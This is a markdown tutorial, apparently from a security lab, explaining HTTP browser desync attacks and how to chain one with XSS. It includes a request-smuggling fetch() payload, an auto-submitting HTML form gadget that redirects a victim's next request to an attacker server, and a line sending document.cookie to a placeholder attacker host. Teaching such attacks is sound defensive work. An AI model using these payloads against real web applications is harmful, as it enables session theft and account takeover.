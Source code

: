 # HTTP Browser Desync Attack

### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

### This attack occurs in two steps:

#### 1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 

#### 2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

### Straightforward payload example:

fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})

### Write this JavaScript Payload in your browser command line that you can write JS

### Command breakdown:

#### 1) http://MACHINE_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.

#### 2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

#### 3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.

#### 4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.

# Browser Desync exploit chaining XSS

### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. 

### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

<form id="btn" action="http://MACHINE_NAME.COM/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>

### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);
